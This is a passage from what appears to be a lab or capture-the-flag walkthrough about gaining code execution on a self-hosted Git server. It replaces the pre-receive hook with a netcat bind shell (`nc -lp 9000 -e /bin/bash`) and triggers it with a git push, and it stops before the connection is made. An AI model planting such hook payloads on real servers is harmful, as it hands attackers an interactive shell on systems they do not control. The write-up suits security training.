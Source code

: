 If we refresh the page, we can see that the repository now contains our `README.md` file.

![testRepository2](/assets/{{ imgDir }}/testRepository2.png)

By exploring the tabs above the repository, it is possible to notice that there is support for [Git hooks](https://www.atlassian.com/git/tutorials/git-hooks). The configurations for Git hooks can be found by pressing the `Settings` tab and then the `Git Hooks` subtab.

![findingHooks](/assets/{{ imgDir }}/findingHooks.png)

Git hooks are commonly used to trigger the execution of different shell commands on certain git-related events. Git hooks can be divided into server-side and client-side hooks, which execute the shell commands on the server or the client respectively. For our purposes, we are interested in the server-side hooks since these could allow us to execute arbitrary shell commands on the target host. There are three types of server-side Git hooks. The first two are `pre-receive` and `update` which both execute related shell commands before handling a push from a client. The last type is `post-receive` which executes its related shell commands after handling a push from a client

![githook1](/assets/{{ imgDir }}/githook1.png)

By clicking the `pre-receive` hook, we discover an example script which we can edit.

![githook2](/assets/{{ imgDir }}/githook2.png)

We can replace this example script with shell commands to trick the target into handing us an interactive shell. To do this, we can overwrite the example script with a bind shell command such as `nc -lp 9000 -e /bin/bash`. This command will instruct the target to provide anyone connecting to port 9000 with an interactive shell. Once we have edited the script, we can press the `Update Hook` button to save our modifications. 

![githook3](/assets/{{ imgDir }}/githook3.png)

The next step is to perform a `git push` to the repository to trigger the `pre-receive` hook which, in turn, will trigger the execution of the bind shell payload. To do this, we can simply add some random characters to our `README.md` file, mark the file to be commited, perform the commit and push the commit to the target. 

{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x/testRepository]
└─$ @@echo "Defcon" >> README.md@@
                                                                                                                    
┌──(kali㉿kali)-[/tmp/x/testRepository]
└─$ @@git add README.md@@    
                                                                                                                    
┌──(kali㉿kali)-[/tmp/x/testRepository]
└─$ @@git commit -m "Test"@@
[master c5900bd] Test
 1 file changed, 1 insertion(+)
                                                                                                                    
┌──(kali㉿kali)-[/tmp/x/testRepository]
└─$ @@git push@@
Username for 'http://10.6.6.24:3000': @@Test@@
Password for 'http://Test@10.6.6.24:3000': 
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Writing objects: 100% (3/3), 254 bytes | 254.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
{% endhighlight %}
